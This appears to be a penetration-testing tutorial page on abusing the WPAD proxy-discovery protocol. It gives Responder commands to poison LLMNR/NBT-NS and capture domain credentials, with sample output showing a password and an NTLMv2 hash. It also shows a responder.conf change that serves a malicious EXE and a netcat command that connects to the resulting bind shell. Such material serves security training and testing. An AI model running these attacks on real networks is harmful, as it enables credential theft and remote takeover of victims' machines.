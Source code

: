 # 🟨 WPAD Abuse

## <mark style="color:red;">WPAD</mark>

Organisations allow employees to access the internets through proxy servers to increase performance, ensure security and track traffic.Users who connected to the corporate network need to know proxy server for specific URL without doing configuration. The Web Proxy Auto-Discovery Protocol (WPAD) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### <mark style="color:orange;">How WPAD works</mark> <a href="#how-wpad-works" id="how-wpad-works"></a>

The client wants to access the wpad.dat configuration file for proxy configuration. It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:

1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server (if successful, step 4 is taken)
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. (If successful, step 4 is taken)
3. Sent LLMNR query for WPAD (if success, go step 4 else proxy can’t be use)
4. Download wpad.dat and use

According to the above sequence, DHCP poisoning attack can be done for the first step. DNS poisoning attack can naturally be performed for the second step. But as I pointed out at the beginning of this article, configured network devices prevent these attacks. When a query is made through the LLMNR, this request will go to every client in the network via broadcast. At this point the attacker sends his wpad.dat file to the clients, acting like a wpad server.

{% hint style="info" %}
The important thing is that WPAD protocol is built in Windows operating systems. This configuration can be seen in the LAN Settings Section of the Internet Explorer browser. With this configuration, Internet Explorer makes a WPAD name resolution query on the whole network.
{% endhint %}

## <mark style="color:red;">Abusing WPAD</mark>

#### Responder serves a fake WPAD Server and responds to clients’ WPAD name resolution. The client then requests the wpad.dat file from this fake WPAD Server. Responder creates an authentication screen and asks clients to enter the username and password they use in the domain. Naturally, employees write usernames and passwords used in the domain name. Finally, we can see their username and passwords.

we serve the fake HTTP Server and wait for clear-text passwords.

```
python Responder.py -I eth0 -wFb
```

And our victim will see the following dialog box and naturally type the username and password.

![](<../../.gitbook/assets/image (260).png>)

and we can see the clear-text passwords:

```
---
snippet
---
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name GOOGLE.COM (service: Workstation/Redirector)
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name WWW.GOOGLE.COM (service: Workstation/Redirector)
[HTTP] Basic Client : 10.7.7.30
[HTTP] Basic Username : PENTESTLAB\roland
[HTTP] Basic Password : secr3tPassw0rd123!
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[SMB] NTLMv2-SSP Client : 10.7.7.30
[SMB] NTLMv2-SSP Username : PENTESTLAB\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::PENTESTLAB:1122334455667788:8EBDB974DF3D5F4FB0CA15F1C5068856:01010000000000007894C6BE2C54D201FCEDFDB71BB6F1F20000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000B39077D5C9B729062C03BB45B88B0D9EC2672C57115A1FE3E06F77BD79551D8F0A001000000000000000000000000000000000000900220063006900660073002F007200650073007000700072006F00780079007300720076000000000000000000
[SMB] Requested Share : \\RESPPROXYSRV\IPC$
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
```

## <mark style="color:red;">Backdoor with Responder</mark>

The responder is not only MiTM attack for the WPAD service. It can force victims to downloadinga malicious files by directing ze to a fake web page. Social engineering can be used to realistically prepare the web page to be used for this attack. However, the Responder itself has a fake redirect page as well. All we need to do is make a few changes to the responder.conf file. We set “Serve-HTML” and “Serve-EXE” parameters to “On”.

```
[HTTP Server]
; Set to On to always serve the custom EXE
Serve-Always = On
; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On 
```

And we’re starting to run the Responder again.

```
python Responder.py -I eth0 -i 10.7.7.31 -r On -w On
```

Now, when the victim tries to go out to the internet, ze will only see the following page. And by chance, **the victim clicks on the Proxy Client connection and Bind downloads the CMD Shell, so we can connect to the victim’s 140 connection point with netcat.**

![](<../../.gitbook/assets/image (258).png>)

```
nc 10.7.7.30 140 -vv
```
